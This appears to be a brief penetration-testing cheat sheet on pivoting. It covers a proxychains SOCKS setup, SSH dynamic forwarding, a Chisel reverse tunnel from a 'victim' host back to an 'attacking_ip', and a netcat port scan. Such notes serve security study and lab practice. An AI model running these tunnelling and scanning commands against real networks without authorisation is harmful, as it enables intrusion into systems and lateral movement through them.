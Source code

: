 ﻿
**Proxychains**:
1. Edit **last** **line** for */etc/proxychains4.conf*
2. **Add socks4** proxy for localhost and desired port
3. **Dynamic** **SSH Forwarding**:
a. ssh -NfD [desired_port] user@middle_machine

**Chisel**:
1. **From attacker:**
a. chisel server -p 8000 --reverse
2. **From victim:**
a. chisel client attacking_ip:8000 R:listening_port:victim_ip:target_port

**nc Port scan:**
nc -z -w 1 -v IP PORTRANGE (start-end) 2>&1 | grep -I succeeded
